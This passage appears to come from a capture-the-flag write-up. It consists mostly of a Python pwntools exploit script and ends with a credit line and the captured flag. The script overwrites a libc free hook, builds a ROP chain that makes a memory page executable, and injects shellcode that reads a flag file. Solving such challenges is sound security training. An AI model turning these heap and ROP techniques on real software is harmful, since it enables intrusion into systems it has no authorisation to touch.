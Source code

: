 ```py
stackControl = stackLeak - 0x70

# io.info("controlling stack: " + hex(stackControl))

io.recvuntil("Pointer: ")
io.sendline(str(freeHook))
io.recvuntil("Content: ")
io.send(p64(symKill))

io.recvuntil('exit\n')
io.send('1')

io.recvuntil('Size: ')
io.send('8')

io.recvuntil("Data: ")
io.send('G')


libc.address = libcBase
rop = ROP(libc)

writePage = binBase + (0x202100) // 4096 * 4096

rop.mprotect(writePage, 4096, 7)
rop.read(0, writePage, 0x1000)
rop.raw(writePage)
raw_rop = rop.chain()
raw_rop = list(funcy.chunks(8,raw_rop))


string_addr = writePage + 0x300

shellcode = asm(shellcraft.read(0, string_addr, 100))
shellcode += asm(shellcraft.openat(0,string_addr,0))
shellcode += asm(shellcraft.read('rax',string_addr,100))
shellcode += asm(shellcraft.write(1, string_addr, 100))

# io.interactive()

ropchain = raw_rop

rop_offset = 0
for i in ropchain:
    i = u64(i)
    add_rop(i, rop_offset)
    rop_offset += 1

io.recvuntil("exit\n")
io.sendline(b'3')
sleep(1)
io.send(shellcode)
sleep(1)
io.send('/home/ctf/flag.txt')
io.interactive()
```

Thanks to [Kevin Zhang](https://github.com/Zhang-Kevin16) for the shellcode.

## Flag

`flag{this_really_needs_a_kill_shot!_cc5dcc74acd62fa74899efaff22d8f79}`

